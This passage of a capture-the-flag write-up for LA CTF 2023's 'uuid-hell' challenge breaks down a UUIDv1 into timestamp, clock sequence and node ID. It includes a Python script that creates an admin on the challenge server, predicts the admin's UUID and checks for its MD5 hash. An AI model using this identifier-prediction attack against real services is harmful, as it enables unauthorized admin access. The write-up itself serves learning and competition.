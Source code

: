 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/LA-CTF-2023/images/Pasted%20image%2020230211173340.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/LA-CTF-2023/images/Pasted%20image%2020230211173350.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/LA-CTF-2023/images/Pasted%20image%2020230211173401.png)

**Hence, our current UUID:**

- Timestamp: 1eda9e3ab25e090 (`ab25e090`-`a9e3`-1`1ed`-aa64-67696e6b6f69)
    - Hex to decimal: 138953958812410000
    - Subtracted: 1676103081241 ( ${138953958812410000} - {122192928000000000} / 10000$ )
    - Converted: Sat Feb 11 2023 16:11:21 GMT+0800 (From [Dan's Tool](https://www.unixtimestamp.com/))
- Version: 1 (ab25e090-a9e3-`1`1ed-aa64-67696e6b6f69)
- Clock Sequence / Clock ID: aa64 (ab25e090-a9e3-11ed-`aa64`-67696e6b6f69) (`0b10101001100100`)
- Node ID: 67696e6b6f69 (ab25e090-a9e3-11ed-aa64-`67696e6b6f69`) (`[0x67, 0x69, 0x6E, 0x6B, 0x6F, 0x69]`)

Hmm... How can we abuse the `/createadmin` route...

***Ah! Since we now know the format of UUIDv1, the value of node, and clock sequence, we can theoretically predict the admin UUID!***

**To so do, I'll write a Python script:**
```py
#!/usr/bin/env python3

import requests
from hashlib import md5
from uuid import uuid1

def main():
    session = requests.session()

    # Create new admin
    URL = 'https://uuid-hell.lac.tf'
    createAdminRequestResult = session.post(URL + '/createadmin')
    print(f'[+] Request result text: {createAdminRequestResult.text}')

    UUIDv1 = str(uuid1(node=0x67696E6B6F69, clock_seq=0b10101001100100))
    print(f'[+] UUIDv1: {UUIDv1}')
    
    hashedUUIDv1 = md5(b'admin' + UUIDv1.encode('utf-8')).hexdigest()
    print(f'[+] Hashed: {hashedUUIDv1}')
   
    homePageRequestResult = session.get(URL)
    print(homePageRequestResult.text.split('<br><br><strong>')[0])
    if hashedUUIDv1 in homePageRequestResult.text:
        print('[+] Found the same hash in the home page!')
    else:
        print('[-] Couldn\'t find the same hash in the home page...')


if __name__ == '__main__':
    main()
```
